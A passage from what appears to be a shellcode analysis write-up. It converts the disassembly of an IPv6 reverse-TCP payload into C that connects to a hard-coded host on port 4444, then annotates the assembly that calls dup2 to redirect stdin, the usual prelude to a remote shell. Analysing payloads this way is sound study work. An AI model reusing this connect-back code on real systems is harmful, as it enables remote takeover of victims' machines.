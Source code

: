 
The disassembly I analyzed up until now can be converted into the following C code:

```cpp
// create an IPv6 socket
int fd = socket(AF_INET6, SOCK_STREAM, IPPROTO_TCP);

// allocate space for the struct containing IPv6 address and TCP port
struct sockaddr_in6 addr;

// set the socket to use IPv6
addr.sin6_family = AF_INET6;

// convert the TCP port number to big-endian (instead of little-endian)
addr.sin6_port = htons(4444);

// convert the string to an IPv6 address (big-endian)
inet_pton(AF_INET6, "fe80::250:56ff:fe22:364b", &amp;(addr.sin6_addr));

// connect to fe80::250:56ff:fe22:364b:4444
connect(fd, (struct sockaddr *)&amp;addr, sizeof(addr));
```

So, first it creates a `TCP socket` based on the `IPv6` protocol.

After that, it connects the socket referred to by the file descriptor `fd` to the address identified by:

- IP address: `fe80::250:56ff:fe22:364b`
- TCP port: `4444`

Next, the function `dup2` is used for redirecting file descriptors.

```nasm
                            ; clear EBX, setting it to 0
00000046  31DB              xor ebx,ebx

                            ; compare EAX with EBX, if they are equal,
                            ;   the flag ZF will be set, as cmp
                            ;   simply subtracts the bytes
00000048  39D8              cmp eax,ebx

                            ; if the flag ZF is set, and the two registers are equal,
                            ;   then jumps to 00000082 (calls nanosleep())
0000004A  7536              jnz 0x82

                            ; 2nd argument of dup2():
                            ;   newfd: file descriptor to be redirected,
                            ;   in this case stdin
0000004C  31C9              xor ecx,ecx

                            ; clear ECX, EDX, EAX
0000004E  F7E1              mul ecx

                            ; 1st argument of dup2():
                            ;   oldfd, i.e. the destination of the redirection of
                            ;   the file descriptor specified in the arg. newfd (ECX)
00000050  89F3              mov ebx,esi

                            ; call syscall dup2()
00000052  B03F              mov al,0x3f
00000054  CD80              int 0x80
```
